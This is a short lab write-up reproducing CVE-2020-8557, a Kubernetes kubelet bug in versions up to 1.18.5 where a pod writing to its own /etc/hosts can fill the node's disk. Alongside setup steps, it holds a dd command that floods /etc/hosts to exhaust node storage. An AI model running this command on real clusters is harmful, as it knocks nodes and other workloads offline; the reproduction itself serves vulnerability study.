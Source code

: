# k8s security [Node disk DOS by writing to container /etc/hosts] reproduce

| Author             | Date       |
| ------------------ | ---------- |
| Kaitao Qiu (Miles) | 2023/10/24 |

[TOC]

## background

it is a security issue about CVE-2020-8557

The Kubernetes kubelet component in versions 1.1-1.16.12, 1.17.0-1.17.8 and 1.18.0-1.18.5 do not account for disk usage by a pod which writes to its own /etc/hosts file. The /etc/hosts file mounted in a pod by kubelet is not included by the kubelet eviction manager when calculating ephemeral storage usage by a pod. If a pod writes a large amount of data to the /etc/hosts file, it could fill the storage space of the node and cause the node to fail.

## reproduce

login https://labs.play-with-k8s.com/
and create environment(set kubeadm and other kube-realted component with version 1.18.0) and create a master mode and a worker node.

```bash
kubeadm reset

yum remove kubeadm kubectl kubelet kubernetes-cni

yum install kubeadm-1.18.0 kubectl-1.18.0 kubelet-1.18.0 kubernetes-cni
 
kubeadm init --apiserver-advertise-address $(hostname -i) --pod-network-cidr 10.5.0.0/16

kubectl apply -f https://raw.githubusercontent.com/cloudnativelabs/kube-router/master/daemonset/kubeadm-kuberouter.yaml
 
kubeadm join 192.168.0.23:6443 --token XXXXXXXXXX \
    --discovery-token-ca-cert-hash XXXXXXXX
```

![image-20231024175337828](k8s%20security%20cve%20reproduce.assets/image-20231024175337828.png)

![image-20231024175343910](k8s%20security%20cve%20reproduce.assets/image-20231024175343910.png)

![image-20231024175616635](k8s%20security%20cve%20reproduce.assets/image-20231024175616635.png)

Create a pod with name `fill-disk-pod`

```bash
kubectl run fill-disk-pod --image=ubuntu -i --tty -- /bin/bash
# we can login this pod
kubectl exec -it fill-disk-pod -- /bin/bash
# Run the dd command in Pod to fill up the disk space This will create a large file that will gradually reduce the disk space
# This will create a very large file in the /ETC /HOSTS file, and gradually fills the disk space.
dd if=/dev/zero of=/etc/hosts count=1000000 bs=10M

```



![image-20231024181157411](k8s%20security%20cve%20reproduce.assets/image-20231024181157411.png)

And we can use 

```bash
watch df -h /var/lib/kubelet
```

To see the disk usage is going higher and higher and cause the available disk into 0.

![image-20231024181145962](k8s%20security%20cve%20reproduce.assets/image-20231024181145962.png)

![image-20231024181205960](k8s%20security%20cve%20reproduce.assets/image-20231024181205960.png)

